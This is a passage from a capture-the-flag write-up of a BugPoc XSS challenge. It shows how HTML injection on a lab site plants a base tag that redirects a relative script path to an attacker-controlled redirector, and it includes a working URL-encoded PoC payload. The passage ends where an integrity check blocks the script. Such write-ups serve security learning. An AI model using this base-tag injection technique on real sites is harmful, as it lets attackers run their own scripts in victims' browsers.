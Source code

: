 This works too! I would generally prefer the second approach as it doesn't require an HTML page to be hosted elsewhere, but since we're hosting a PoC on BugPoc for this challenge, we may as well use the first. It means our URL can be a bit simpler too, which always helps when assembling a complex payload.

Either way, problem 1 is solved.

## Solving Problem 2: Hardcoded Script Src

The script being loaded has a hardcoded `src` of `files/analytics/js/frame-analytics.js`. 

{% highlight js %}
 script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
{% endhighlight %}

Well, there's nothing we can do to modify a hardcoded path, right? Well, actually, it isn't *completely* hardcoded. It's a relative URL, not an absolute one. Relative to what? The *base* URL, which in this case is `https://wacky.buggywebsite.com/`, meaning the final script loaded would be `https://wacky.buggywebsite.com/files/analytics/js/frame-analytics.js`. If we had way to change the base URL to `https://evil.com/`, the script would be loaded from `https://evil.com/files/analytics/js/frame-analytics.js` instead. If only it were that simple.

Well, it **is** that simple! We can use a [base](https://www.w3schools.com/tags/tag_base.asp) tag to achieve this. We can inject this in using the HTML injection vulnerability we discovered earlier. 

We already have our code hosted by BugPoc, but it's not at a path that ends with `files/analytics/js/frame-analytics.js`. We can correct this by using another useful BugPoc feature: a [Flexible Redirector](https://bugpoc.com/testers/other/redir). A flexible redirector redirects a request for any path on to another location. We can use it to redirect to the mock endpoint we created earlier. In this case BugPoc gives us the URL `https://xbwvcxixjx6o.redir.bugpoc.ninja`.

We can now add this to a base tag to load our script onto the page, so let's update our PoC accordingly:

{% highlight html %}
<script>
window.name = 'iframe';
window.location = 'https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20href=%22https://xbwvcxixjx6o.redir.bugpoc.ninja%22/%3E';
</script>
{% endhighlight %}

No `alert()` is visible, but checking the network panel reveals that our script is being successfully loaded:

![Self-contained iframe](/assets/2020-11-10-bugpoc-xss/script-loaded.png)

Nice! We can see why it isn't being run if we check the console:

![Self-contained iframe](/assets/2020-11-10-bugpoc-xss/integrity-check-failed.png)
